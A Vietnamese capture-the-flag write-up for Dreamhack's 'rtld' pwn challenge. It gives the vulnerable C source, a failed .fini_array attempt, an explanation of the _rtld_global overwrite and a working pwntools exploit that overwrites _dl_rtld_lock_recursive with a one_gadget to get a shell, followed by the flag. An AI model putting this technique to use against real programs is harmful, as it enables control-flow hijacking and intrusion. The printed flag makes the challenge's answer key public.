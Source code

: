 # rtld

1 chall khá lạ và mới về **kĩ thuật rtld_global Overwrite**

**dreamhack:** https://learn.dreamhack.io/11#14

## source C:

```c 
// gcc -o rtld rtld.c -fPIC -pie

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <dlfcn.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

void get_shell() {
    system("/bin/sh");
}

int main()
{
    long addr;
    long value; 

    initialize();

    printf("stdout: %p\n", stdout);

    printf("addr: ");
    scanf("%ld", &addr);

    printf("value: ");
    scanf("%ld", &value);

    *(long *)addr = value;
    return 0;
}

```

**checks:**

![image](https://github.com/gookoosss/CTF/assets/128712571/8f0f8cbf-6759-44f2-aef5-4d2559bcd2c3)


ở đây có canary rồi ko thể BOF được, ta lại ko thể leak được địa chỉ stack để có thể lấy được địa chỉ rip

**=> hàm get_shell dường như vứt đi**

ở tới đây mình nảy ra 1 ý tưởng khá hay đó **tấn công .fini_array** vì ta có thể leak được nó dễ dàng kết hợp với one_gadget

## Test:

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./rtld_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")
# r = remote("addr", 1337)
context.binary = exe
p = process([exe.path])


gdb.attach(p, gdbscript = '''
b*main+58    
b*main+99    
b*main+140    
c           
''')

input()

p.recvuntil('stdout: ')
libc_leak = int(p.recvline()[:-1], 16)
libc.address = libc_leak - 0x3c5620
finit = libc.address + 0x5f1168
ld.address = libc_leak + 0x49e0
ld_global = ld.address + 0x226040

# 0x201dd8

log.info('libc leak: ' + hex(libc_leak))
log.info('libc base: ' + hex(libc.address))
log.info('finit leak: ' + hex(finit))
log.info('ld base: ' + hex(ld.address))

one_gadget = libc.address + 0xf1247

p.sendlineafter(b'addr: ', str(finit))
p.sendlineafter(b'value: ', str(one_gadget - 0x201dd8))

p.interactive()


```

ban đầu nghĩ cách này sẽ hiệu quả nhưng ko lấy shell được

sau đó thì mình có nghiên cứu **tài liệu về kĩ thuật rtld_global Overwrite** từ nhiều nguồn thì **mình tạm hiểu sơ theo ý mình như này:**
- như ta đã biết thì khi kết thúc chương trình thì **địa chỉ base sẽ cộng thêm offset để trỏ đến địa chỉ .fini_array thực thi lên exit()** nhằm kết thúc dữ liệu và xóa bộ đệm
- **.fini_array thì nhằm trong _rtld_global**, nên chương trình sẽ đi vào **_rtld_global** trước rồi mới vào **.fini_array**

![image](https://github.com/gookoosss/CTF/assets/128712571/7e411185-2240-4ba0-ba21-940f985db5d2)



- trong tài liệu có nói lý do là **Relro bật**, nên k**hi vào _rtld_global thì nó chưa kịp đến .fini_array thì đã end chương trình**, nên sử dụng cách tấn công .fini_array là không thực thi được

![image](https://github.com/gookoosss/CTF/assets/128712571/25ac20aa-9c46-4aae-b485-a680fbee6b4d)


**tài liệu mình tham khảo:** 

https://aidencom.tistory.com/158

oke bây giờ ta chỉ còn 1 cách duy nhất là **dùng kĩ thuật rtld_global Overwrite** thôi

chương trình cho ta địa chỉ stdout nên **ta có thể leak libc, ld, rtld_global và rtld_lock_recursive**

lần nhập 1 ta thay vì ta nhập địa chỉ trỏ đến **fini_array** như ta hay làm thì giờ ta sẽ nhập địa chỉ **rtld_lock_recursive**, sau đó lần nhập 2 ta sẽ nhập **one_gadget** là lấy shell thôi

![image](https://github.com/gookoosss/CTF/assets/128712571/3e965058-3730-4058-989f-377251fc6721)



**(thật ra thì cách giải bài này trên dreamhack đã giải thích và hướng dẫn chi tiết rồi nên các có thể đọc thêm)**

**dreamhack:** https://learn.dreamhack.io/11#14

## script:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./rtld_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")
# p = remote("host3.dreamhack.games", 24552)
context.binary = exe
p = process([exe.path])


gdb.attach(p, gdbscript = '''
b*main+58    
b*main+99    
b*main+140    
c           
''')

input()

p.recvuntil('stdout: ')
libc_leak = int(p.recvline()[:-1], 16)
libc.address = libc_leak - 0x3c5620
ld.address = libc_leak + 0x49e0
ld_global = ld.address + 0x226040
recursive = ld.address + 0x226f48

log.info('libc leak: ' + hex(libc_leak))
log.info('libc base: ' + hex(libc.address))
log.info('ld base: ' + hex(ld.address))
log.info('recursive: ' + hex(recursive))

one_gadget = libc.address + 0xf1247


p.sendlineafter(b'addr: ', str(recursive))
p.sendlineafter(b'value: ', str(one_gadget))


p.interactive()

# DH{e8992639751efccc8aed4a007c3b50542f352cb7b564418c1db1edbc5a87c4f0}

```

## Flag
 
DH{e8992639751efccc8aed4a007c3b50542f352cb7b564418c1db1edbc5a87c4f0}





